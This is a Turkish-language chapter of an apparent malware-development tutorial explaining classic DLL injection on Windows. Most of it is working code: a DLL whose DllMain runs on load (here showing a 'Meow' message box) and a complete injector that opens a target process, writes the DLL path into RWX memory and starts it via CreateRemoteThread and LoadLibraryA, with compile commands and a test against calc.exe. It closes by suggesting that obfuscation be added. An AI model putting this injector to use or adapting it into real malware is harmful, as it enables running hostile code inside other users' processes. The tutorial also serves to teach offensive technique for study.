

\newpage
\subsection{5. klasik DLL enjeksiyonu işlemi. basit C++ zararlı yazılım.}

﷽

{width=400px}    

Bu bölümde, debugging API kullanılarak yapılan klasik bir DLL enjeksiyonu tekniğini ele alacağız.     

Klasik kod enjeksiyonundan önceki bölümde bahsetmiştim.

Öncelikle, DLL'imizi hazırlayalım.      

`exe` ve `DLL` yazımında bazı küçük farklar vardır. Temel fark, modülünüzde veya programınızda kodunuzu nasıl çağırdığınızdır. `exe` durumunda, işletim sistemi yükleyicisinin yeni bir sürecin tüm başlatma işlemlerini tamamladığında çağırdığı bir `main` fonksiyonu bulunmalıdır. Bu noktada, işletim sistemi yükleyicisi işini bitirdiğinde programınız çalışmaya başlar.    

Öte yandan, programınızı dinamik bir kütüphane olarak (`DLL`) çalıştırmak istediğinizde, durum biraz farklıdır. Yükleyici zaten bellekte bir süreç oluşturmuş olur ve bu süreç, bir şekilde DLL'inize veya başka bir DLL'e ihtiyaç duyar. Bu, DLL'inizin uyguladığı bir fonksiyon nedeniyle olabilir.     

*Özetle, `exe` bir main fonksiyonuna ihtiyaç duyar, `dll` ise bir `DLLMain` fonksiyonuna ihtiyaç duyar.*     

Bu, en temel farktır.     

Basitlik açısından, yalnızca bir mesaj kutusu açan bir DLL oluşturacağız:     

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

DLL yalnızca DllMain fonksiyonundan oluşur ve bu, bir `DLL` kütüphanesinin ana fonksiyonudur. Normalde meşru `DLL`'ler dışa aktarılmış (exported) fonksiyonlar tanımlar, ancak bu `DLL` herhangi bir dışa aktarılmış fonksiyon tanımlamaz. `DllMain` kodu, `DLL` sürecin belleğine yüklendikten hemen sonra çalıştırılır.     

Bu durum, DLL Enjeksiyonu bağlamında önemlidir çünkü başka bir süreç bağlamında kod çalıştırmanın en basit yolunu arıyoruz. Bu nedenle, enjekte edilen kötü amaçlı `DLL`'lerin çoğu, kötü amaçlı kodlarının büyük bir kısmını `DllMain` içine yazar. Bir süreci dışa aktarılmış bir fonksiyonu çalıştırmaya zorlamanın yolları vardır, ancak kodunuzu `DllMain` içinde yazmak genellikle kod çalıştırmanın en basit çözümüdür.    

Enjekte edilmiş süreçte çalıştırıldığında, mesajımızı görüntülemelidir: `"Meow from evil.dll!"`, bu da enjeksiyonun başarılı olduğunu gösterir.    

Şimdi bunu derleyebiliriz (saldırganın makinesinde):    

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width=400px}    

ve bunu seçtiğimiz bir dizine koyun (hedef makine):

{width=400px}

Şimdi tek ihtiyacımız olan, bu kütüphaneyi seçtiğimiz bir sürece enjekte edecek bir kod.     

Bizim durumumuzda klasik DLL enjeksiyonundan bahsedeceğiz. Boş bir tampon ayırıyoruz ve bu tampon en az diskten DLL yolunun uzunluğu kadar olmalıdır. Daha sonra bu yolu tampona kopyalıyoruz.    

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Gördüğünüz gibi oldukça basit. Klasik kod enjeksiyonu bölümümdekiyle aynı. Tek fark, diskten `DLL`'imizin yolunu eklememiz **(1)** ve `DLL`'imizi enjekte edip çalıştırmadan önce `LoadLibraryA`'nın bellek adresine ihtiyacımız var. Bu, `DLL`'imizi yüklemek için kurban sürecin bağlamında çalıştıracağımız bir API çağrısı olacaktır **(2)**:    

{width=400px}

Son olarak, enjektörün tüm kodunu anladıktan sonra, bunu test edebiliriz.  
Derlemek için şu komutu çalıştırın:

```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
{width=400px}

Öncelikle bir `calc.exe` örneğini başlatalım ve ardından programımızı çalıştıralım:

{width=400px}

DLL'imizin gerçekten `calc.exe` sürecine enjekte edildiğini doğrulamak için Process Hacker kullanabiliriz.

{width=400px}

Belleğin başka bir bölümünde şunları görebiliriz:     

{width=400px}

Görünüşe göre basit enjeksiyon mantığımız işe yaradı! Bu, başka bir sürece DLL enjekte etmenin en basit yoludur, ancak birçok durumda yeterli ve oldukça kullanışlıdır.      

Eğer isterseniz, ilerideki bölümlerde araştırılacak olan fonksiyon çağrısı gizleme (obfuscation) yöntemlerini de ekleyebilirsiniz.     

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Kaynak kodu Github'da](https://github.com/cocomelonc/2021-09-24-injection-2)

İlerleyen bölümlerde daha gelişmiş kod enjeksiyonu tekniklerini bulmaya çalışacağım.     
